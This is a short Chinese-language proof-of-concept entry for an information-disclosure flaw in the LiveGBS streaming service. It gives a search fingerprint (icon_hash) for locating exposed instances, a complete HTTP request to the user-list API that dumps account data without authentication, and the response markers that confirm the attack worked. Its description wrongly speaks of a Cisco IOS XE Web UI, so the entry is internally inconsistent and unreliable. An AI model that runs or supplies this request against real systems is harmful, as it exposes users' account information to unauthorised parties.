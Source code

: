 ﻿# LiveGBS 流媒体服务 信息泄漏

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：LiveGBS list接口处存在逻辑缺陷漏洞，当Cisco IOS XE Web UI在互联网公开时，恶意攻击者可能会利用此漏洞访问系统敏感资源，使服器处于继不安全的状态  

> 漏洞特征：icon_hash="-206100324"

> 验证脚本：HTTP

```
GET /api/v1/user/list?q=&start=0&limit=100&enable=&sort=CreatedAt&order=desc HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Requested-With: XMLHttpRequest
```

> 响应代码特征：200

> 响应内容特征：Username

> 上传文件定位：

> 验证文件来源：LiveGBS 流媒体服务 信息泄漏.poc

